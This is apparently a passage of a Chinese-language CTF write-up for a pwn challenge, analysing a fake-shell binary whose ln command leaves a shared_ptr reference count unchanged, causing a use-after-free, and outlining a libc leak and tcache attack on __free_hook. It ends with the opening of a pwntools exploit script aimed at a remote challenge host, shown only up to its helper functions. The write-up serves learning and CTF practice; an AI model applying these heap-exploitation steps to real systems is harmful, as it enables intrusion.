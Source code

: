 ### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E5%88%86%E6%9E%90"></a>程序分析
<li>关键是Manager对象, 根据初始化函数可以发现
<ul>
- this+0x是一个vector&lt; shared_ptr&lt;File&gt; &gt;, 保存创建的文件
- this+0x18是一个vector&lt;string&gt; , 会把读入的cmd以空格分割保存为数组
<li>this+0x30是一个map&lt;string, FuncPtr&gt;, 是一个命令到对应函数的映射, 支持下面的命令
<ul>
- touch
- ls
- vi
- cat
- rm
- ln- string name 保存文件名
- shared_ptr&lt;string&gt; cont
- string type, 如果是正常的文件则为”file” 如果是ln的文件则为”link”
### <a class="reference-link" name="%E6%80%9D%E8%B7%AF"></a>思路
- 由于有ln的存在,因此漏洞只能出现在每个文件cont部分的shared_ptr上, 后来测试了一下发现, 当链接之后, shared_ptr&lt;string&gt; cont;的引用技术不会增加, 还是1, 这就会导致UAF
[![](https://p3.ssl.qhimg.com/t01ae1032cbeae7f616.png)](https://p3.ssl.qhimg.com/t01ae1032cbeae7f616.png)
- 经过测试发现如果有A1-&gt;A, 先rm(A), 这样A1的cont就是被释放过的
- 但是需要注意一点, 由于string有一个局部缓冲区特性, 长度小于0x10的话,使用结构体内部缓冲区, 直接去free的话会报错
- 能构造出UAF思路就清楚了, 先用7个chunk填满tcache, 然后释放一个chunk到UB中, UAF读泄露libc地址, 然后直接tcache attack打__free_hook
### <a class="reference-link" name="EXP"></a>EXP

```
#! /usr/bin/python2
# coding=utf-8
import sys
from pwn import *
from random import randint

context.log_level = 'debug'
context(arch='amd64', os='linux')

elf_path = "./pwn"
elf = ELF(elf_path)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def Log(name):    
    log.success(name+' = '+hex(eval(name)))

if(len(sys.argv)==1):            #local
    cmd = ['/home/chenhaohao/pwn']
    sh = process(cmd)
    proc_base = sh.libs()['/home/chenhaohao/pwn']
else:                        #remtoe
    sh = remote('39.105.134.183', 18866)

def GDB():
    gdb.attach(sh, '''
    break *free
    ''')

def Cmd(n):
    sh.recvuntil('\x1B[31m$ \x1B[m')
    sh.sendline(n)

def touch(name):
    Cmd('touch %s'%(name))
```